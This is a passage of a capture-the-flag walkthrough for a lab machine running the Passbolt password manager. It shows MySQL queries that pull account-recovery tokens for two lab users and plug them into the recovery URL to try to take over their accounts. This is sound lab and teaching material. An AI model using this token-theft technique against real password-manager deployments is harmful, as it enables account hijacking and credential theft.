```bash
The password management server is up and running.  Go ahead and download the extension to your browser and get logged in.  Be sure to back up your private key because I CANNOT recover it.  Your private key is the only way to recover your account.
Once you're set up you can start importing your passwords.  Please be sure to keep good security in mind - there's a few things I read about in a security whitepaper that are a little concerning...

-Clark
```

<br>

[Passbolt](https://addons.mozilla.org/sv-SE/firefox/addon/passbolt/) is a Open Source Password Manager, and from scouring the database we found both Clark and Eddies PGP Public key and some passwords. 

While looking for ways to recover Clark and Eddie's accounts I came across [this post](https://community.passbolt.com/t/passbolt-self-hosted-does-not-send-password-recovery-email-only-from-administrator/3625). We extract the `token` and `user_id` from mysql and use it to access the recovery page. 
**`https://<your_domain>/setup/recover/<user_id>/<token>`**

<br>

**Clark:**
```
mysql> select user_id, token from authentication_tokens where user_id = (select id from users where username = 'clark@bolt.htb') and type = 'recover' order by
 created DESC;
+--------------------------------------+--------------------------------------+
| user_id                              | token                                |
+--------------------------------------+--------------------------------------+
| 9d8a0452-53dc-4640-b3a7-9a3d86b0ff90 | 1893cd40-fae5-4dd9-9406-947620fdac66 |
+--------------------------------------+--------------------------------------+
```


**Eddie:**
```
mysql> select user_id, token from authentication_tokens where user_id = (select id from users where username = 'eddie@bolt.htb') and type = 'recover' order by created DESC;
+--------------------------------------+--------------------------------------+
| user_id                              | token                                |
+--------------------------------------+--------------------------------------+
| 4e184ee6-e436-47fb-91c9-dccb57f250bc | cf880afd-d905-482e-84e0-42469662769c |
| 4e184ee6-e436-47fb-91c9-dccb57f250bc | 629845af-e964-4ef8-b7bf-68b921d013cf |
+--------------------------------------+--------------------------------------+
```

Access the recovery page and we quicky realize we need to supply a private key, something that we've yet to discover.

![[Pasted image 20211112092547.png]]

--------

<br>
